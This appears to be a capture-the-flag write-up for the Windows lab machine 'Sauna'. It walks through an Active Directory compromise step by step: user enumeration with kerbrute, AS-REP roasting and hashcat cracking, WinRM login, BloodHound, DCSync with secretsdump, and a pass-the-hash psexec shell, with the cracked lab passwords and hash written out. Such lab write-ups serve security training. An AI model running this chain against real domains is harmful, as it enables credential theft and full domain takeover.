- Machine Name: Sauna
- OS type: Windows
- Difficulty: Easy

### Port Scanning - Service & Version Enumeration

```bash
# Nmap 7.94SVN scan initiated Sun Apr  6 01:13:09 2025 as: /usr/lib/nmap/nmap -sVC -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49668,49673,49674,49677,49689,49696 -oN initial/nmap.out 10.10.10.175
Nmap scan report for 10.10.10.175
Host is up (0.30s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Egotistical Bank :: Home
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-06 12:12:49Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49668/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 6h59m29s
| smb2-time: 
|   date: 2025-04-06T12:13:56
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr  6 01:15:07 2025 -- 1 IP address (1 host up) scanned in 117.87 seconds
```

## Enumeration

### Port 80/HTTP

let’s start our enumeration from port 80


from the title we can say that it is a banking website.



we found some user’s names, let’s note down these usernames in format of FirstName.LastName

let’s check another features in website, clicking on **Apply Now** button we found form



however submitting the form give us the Error 405



Hmm, nothing interesting here

let’s check gobuster for any hidden files or directories

```bash
gobuster dir -u http://10.10.10.175 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-files.txt
```



No interesting files are found

```bash
gobuster dir -u http://10.10.10.175 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt
```



no interesting directories either.

### Port 139,445/SMB

SMB is open on the target it is always better to check for Null sessions on SMB

```bash
smbclient -L //10.10.10.175 -N
```

-L for Listing shares

-N for Null session (No username & password)



server does allows the null session but no share listing, anonymous login enabled!, check for enum4linux

```bash
enum4linux -a 10.10.10.175
```



we found Domain Name and Domain SID, let’s note Domain SID, it can be use in feature attacks.

***SID: S-1-5-21-2966785786-3096785034-1186376766***

***Domain: EGOTISTICALBANK***

### Port 135/MSRPC

let’s connect to MSRPC with rpcclient

```bash
rpcclient -U "" -N 10.10.10.175
```

→ it will work same as SMB null session, then try to run basic command such as **`enumdomains`**



Hmm, we can access but we don’t have permissions to run such commands

### Port 389,3268/LDAP

let’s start our enumeration on LDAP, we’ll use ldapsearch tool for enumerate the LDAP

first we’ll need to grab the Domain NamingContexts also called as DN for perform search using LDAP, also called as base

```bash
ldapsearch -H ldap://10.10.10.175 -x -s base NamingContexts
```

-H : host for searching ldap://<ip>

-x : basic authenticaiton (no need to specify password)

-s : search scope: here we need to search **base** 

NamingContexts : works like filter, output only NamingContexts 



now let’s use this to perform full search on the domain

```bash
ldapsearch -H ldap://10.10.10.175 -x -b "DC=EGOTISTICAL-BANK,DC=LOCAL"
```



Lot of output but we didn’t find anything useful here such as usernames or any other details

### Port 88/Kerberos

Let’s use the created user’s list and use tool - kerbrute to find valid users, i’ve added the Administrator and krbtgt users’ to the list as they are the inbuilt user’s in any AD Domain Controller

it identified Administrator and krbtgt is valid users, but other user’s are not exists

```bash
kerbrute userenum --dc 10.10.10.175 -d EGOTISTICAL-BANK.LOCAL usernames.txt -v
```



let’s change our username format as per the industry standards, in companies the username of the employee can be in following patterns:

- Firstname.Lastname
- FirstInital.Lastname
- FirstinitialLastname
- Firstname.Lastinitial
- FirstnameLastinitial
- Firstname

as we’ve tried Firstname.Lastname let’s check other format as well, we’ll first only change 1 user’s name, let’s say Fargus.Smith, so now let’s edit Fergus.Smith to F.Smith,FSmith,Fergus.S, FergusS,Fergus



Bingo! we got hit, so the username format is FistinitialLastname, let’s change all user’s username and then try again





it still identified only one valid user what’s wrong!,



so it is the thing!, only one security manager and it is Mr. Fergus Smith 😈

we now have valid username but no password, what are you thinking about AS-REP attack right, yes my friend

```bash
impacket-GetNPUsers -no-pass -dc-ip 10.10.10.175 EGOTISTICAL-BANK.LOCAL/FSmith
```



Bingo!, let’s load our hashcat and crack this sweet hash

```bash
hashcat --help | grep -i kerberos
```



we are here for **AS-REP** let’s use the mode **18200**

```bash
	hashcat -m 18200 fsmith.hash /usr/share/wordlists/rockyou.txt
```



great we found password for fsmith:Thestrokes23

let’s use netexec tool to check if we have any read/write access to share in SMB or permissions to login via winrm

```bash
netexec smb 10.10.10.175 -u fsmith -p Thestokes23 --shares
```



HMM, we have a READ permissions to NETLOGON,SYSVOL,print$ shares and write permissions to ***RICOH Aficio SP 8300DN PCL 6 share*** which looks interesting, let’s keep this in pocket and check for winrm access

```bash
netexec winrm 10.10.10.175 -u fsmith -p Thestokes23
```



**Pwn3d!** means we can login using winrm, let’s use evil-winrm to login as fsmith 

```bash
evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
```



## Post-Enum

let’s start our enumeration, first we’ll check for any special privileges do we have, any special group memberships

let’s check for any special privileges usign `whoami /priv` 



nope, let’s check for group memberships using `whoami /groups` 



nope we are just normal user on this system, what about checking other users on the system



**svc_loanmgr** possibly the service user!, what if we can login as svc_loanmgr then use SeImpersonatePrivilege to gain Admin access!, first we need to enumerate the svc_loanmgr user

let’s check it’s group membership using `net user svc_loanmgr` 



possibly if we can get the password of the svc_loanmgr we can login using evil-winrm, now we are dealing with service user’s so it’s always good to check for the Kerberost attack.



Deadend!, let’s use the bloodhound

```bash
bloodhound-python -c all -u fsmith -p Thestrokes23 -d EGOTISTICAL-BANK.LOCAL -dc SAUNA.EGOTISTICAL-BANK.LOCAL -ns 10.10.10.175
```





svc_loanmgr has DcSync Permission, let’s first find the password for the svc_loanmgr, let’s use the winPEAS to find any information we missed earlier

upload winpeas to target machine via upload command



ohh!, so much overthinking we just found password laying around the machine

as we have DCSync rights let’s just use the secrestdump tool to get the password hashes

```bash
impacket-secretsdump EGOTISTICAL-BANK.LOCAL/svc_loanmgr:'Moneymakestheworldgoround!'@10.10.10.175
```



it’s time for PsExec!!,

```bash
impacket-psexec Administrator@10.10.10.175 -hashes "aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e"
```



and we got the shell as NT authority\SYSTEM user.